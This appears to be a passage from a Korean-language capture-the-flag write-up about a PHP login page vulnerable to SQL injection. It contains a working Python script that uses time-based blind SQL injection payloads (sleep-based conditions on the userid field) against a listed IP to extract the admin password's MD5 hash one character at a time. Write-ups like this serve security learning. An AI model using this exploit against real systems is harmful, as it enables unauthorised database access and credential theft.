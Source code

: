 ```php
    }
} else {
    show_source(__FILE__);
}
?>
```
PHP에서 SQL Injection 취약점이 존재하는 함수인 `$mysqli->query($query);`를 사용하고 있다. 패스워드는 md5 해쉬 알고리즘을 사용하고 있어 userid를 통해 Blind SQL Injection을 수행하였다.    
    

## Exploit Code    
```python
import requests
import time

url = "http://3.34.190.217:2023/"
password = ""
length_password = 0
for i in range(64): 
    start = time.time() 
    r = requests.get(
                url, 
                params={
                    "userid": "aaaa' or if(length(password)={},sleep(3),false)#".format(i),
                    "password": "test"
                }
            )
    end = time.time() 
    if end - start >= 1.5: 
        length_password = i 
        print(f"Length of Password: {i}")
        break 
        
for i in range(1, length_password + 1):
    for j in range(32, 128):
        start = time.time()
        r = requests.get(
                url, 
                params={
                    "userid": "aaaa' or if(ascii(substr(password,{},1))={},sleep(3),false)#".format(i, j),
                    "password": "test"
                }
            )
        end = time.time()
        if end - start >= 1.5: 
            password += chr(j) 
            print(password)

print("Admin MD5 Password:", password) 
```     

